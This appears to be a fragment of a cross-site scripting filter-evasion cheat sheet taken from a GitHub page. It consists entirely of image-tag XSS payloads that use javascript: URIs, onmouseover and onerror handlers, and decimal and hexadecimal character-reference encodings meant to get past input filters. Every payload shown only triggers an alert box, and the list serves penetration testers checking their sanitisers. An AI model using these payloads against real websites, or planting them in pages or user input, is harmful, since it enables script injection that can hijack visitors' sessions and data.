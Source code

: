 ### fromCharCode

```
&lt;IMG SRC=javascript:alert(String.fromCharCode(88,83,83))&gt;
```

### Default SRC tag to get past filters that check SRC domain
```
&lt;IMG SRC=# onmouseover="alert('xxs')"&gt;
```
### Default SRC tag by leaving it empty

```
&lt;IMG SRC= onmouseover="alert('xxs')"&gt;
```

### Default SRC tag by leaving it out entirely
```
&lt;IMG onmouseover="alert('xxs')"&gt;
```
### On error alert

```
&lt;IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"&gt;&lt;/img&gt;
```

### IMG onerror and javascript alert encode
```
&lt;img src=x onerror="&amp;#0000106&amp;#0000097&amp;#0000118&amp;#0000097&amp;#0000115&amp;#0000099&amp;#0000114&amp;#0000105&amp;#0000112&amp;#0000116&amp;#0000058&amp;#0000097&amp;#0000108&amp;#0000101&amp;#0000114&amp;#0000116&amp;#0000040&amp;#0000039&amp;#0000088&amp;#0000083&amp;#0000083&amp;#0000039&amp;#0000041"&gt;
```

### Decimal HTML character references</h2>

```
&lt;IMG SRC=&amp;#106;&amp;#97;&amp;#118;&amp;#97;&amp;#115;&amp;#99;&amp;#114;&amp;#105;&amp;#112;&amp;#116;&amp;#58;&amp;#97;&amp;#108;&amp;#101;&amp;#114;&amp;#116;&amp;#40;&amp;#39;&amp;#88;&amp;#83;&amp;#83;&amp;#39;&amp;#41;&gt;
```
### Decimal HTML character references without trailing semicolons
```
&lt;IMG SRC=&amp;#0000106&amp;#0000097&amp;#0000118&amp;#0000097&amp;#0000115&amp;#0000099&amp;#0000114&amp;#0000105&amp;#0000112&amp;#0000116&amp;#0000058&amp;#0000097&amp;#0000108&amp;#0000101&amp;#0000114&amp;#0000116&amp;#0000040&amp;#0000039&amp;#0000088&amp;#0000083&amp;#0000083&amp;#0000039&amp;#0000041&gt;
```

### Hexadecimal HTML character references without trailing semicolons
```
&lt;IMG SRC=&amp;#x6A&amp;#x61&amp;#x76&amp;#x61&amp;#x73&amp;#x63&amp;#x72&amp;#x69&amp;#x70&amp;#x74&amp;#x3A&amp;#x61&amp;#x6C&amp;#x65&amp;#x72&amp;#x74&amp;#x28&amp;#x27&amp;#x58&amp;#x53&amp;#x53&amp;#x27&amp;#x29&gt;
```
</code></pre>